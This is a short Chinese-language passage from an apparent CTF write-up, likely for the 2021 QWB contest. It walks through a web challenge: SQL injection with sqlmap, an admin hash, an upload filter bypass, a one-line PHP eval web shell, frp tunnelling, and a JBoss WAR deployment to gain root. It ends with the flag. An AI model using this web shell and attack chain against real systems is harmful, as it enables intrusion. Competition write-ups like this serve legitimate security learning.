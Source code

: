 得到36842端口，访问发现是登陆界面，给了表名 应该就是注入，试了下发现有回显报错，直接sqlmap跑

![thumbnail (8)](2021qwb/thumbnail%20(8).png)

用户名：admin

密码：99f609527226e076d668668582ac4420

登陆成功

扫描发现`/file`路由有文件上传

![image-20210614132600977](2021qwb/image-20210614132600977-4170551.png)

`.php`绕过过滤

然后`./.php?1=shell.php&2=<?php eval($_POST[1]);?>`

连上shell，需要提权。扫进程和端口，没啥收获，最终应该是打JAVA的jboss

frp穿出来，根据文章[https://blog.csdn.net/weixin_43999372/article/details/88364032](https://blog.csdn.net/weixin_43999372/article/details/88364032)

制作war包，上传后拿到root，读取根目录flag：

flag{V3ry_v3rY_E3si_a_w3B_Ch@1l3ng3}

# **Re**

## Easymath | SOLVED | Hn13
